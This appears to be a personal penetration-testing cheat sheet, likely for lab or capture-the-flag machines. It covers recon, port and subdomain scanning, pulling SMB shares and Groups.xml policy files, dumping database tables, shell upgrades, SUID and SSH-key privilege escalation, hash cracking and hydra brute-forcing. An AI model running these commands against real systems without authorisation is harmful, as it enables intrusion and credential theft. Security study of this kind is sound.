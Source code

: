 # step by step

## recon
ping {ip}
whois {domain}
nslookup {ip}
dig {ip}
host {domain}

## target scanning
sudo nmap --open #-p- for full port scan #-sV version detection #-sC default scripts #-Pn host discovery

subfinder -d {domain}
dnsgen urls.lst | httprobe
httpx
whatweb

## remote exploits
### http/https
if seeing any url with a number change the number

### ftp
ftp anonymous@{IP}

### smb
smbmap -H {IP} #list shares on target with anomouse
smbmap -H {IP} -u {username} #guest/administrator
smbclient -L={IP} -U Administrator #try a login
smbclient //{IP}/{sharename} #connect to specifiec share
RECURSE ON
PROMPT OFF
cd {dir}
mget /Policies/*/MACHINE/Preferences/Groups/Groups.xml
mget *

### psql
psql -U {USER} -h {IP} -p 5432
\l #list databases
\c {name} #connect to a database
\dt #list tables
select * from {table} #show table content

### finding github source
when finding the source code,
compare the changes,
sometimes in this there might be found the difference

## getting connections
ssh {user}@{ip}
xfreerdp /v:{IP} /u:{USER} /p:{PASSWORD}
telnet {ip} {port}

### basic shell -> shell++
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
script /dev/null -c bash
```
ctrl+Z and then
```
stty raw -echo && fg
```

### recon from a shell
whoami
id #default groups: audio video plugdev cdrom dip floppy netdev
groups
cat .bash_history
uname -a

ss -tln #identify localports
ss -tla #identify name

find / -user root -perm /4000 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #find tools that have an suid, look these up on https://gtfobins.github.io/

pspy32 #spy tool, open it on a host, login on second terminal, and maybe gain stuff

### sudo -L
https://gtfobins.github.io/#+sudo

### ls *.ssh/ 
look for keys and try to login with them to other users
ssh {user}@{ip} -i {keyfile}

#### pgp key decryption
gpg2john {file}.asc > hash
john --format=gpg --wordlist=/usr/share/wordlist/rockyou.txt hash
gpg --import {file}.asc
gpg --decrypt {file}.gpg


## cracking hashes
zip2john file.zip>{hashfile}
john {hashfile}
john {hashfile} --show

hashcat -a 0 -m 20 {hashfile} /usr/share/wordlists/rockyou.txt

## brute forcing
hydra -L users.txt -P pass.txt {IP} ssh
hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV {ip} ftp

gobuster dir --url {ip} --wordlist /usr/share/wordlists/dirb/big.txt
gobuster dns -d {domain} --wordlist /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt

feroxbuster -u {ip}

ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://{domain}/ -H "HOST:FUZZ.{domain}" -fw 1 #vhost
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://{domain} -H 'Host: FUZZ.{domain}' -fw 4 -t 100
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://{domain} -H 'Host: http://{domain}/FFUZ' -ic -t 100


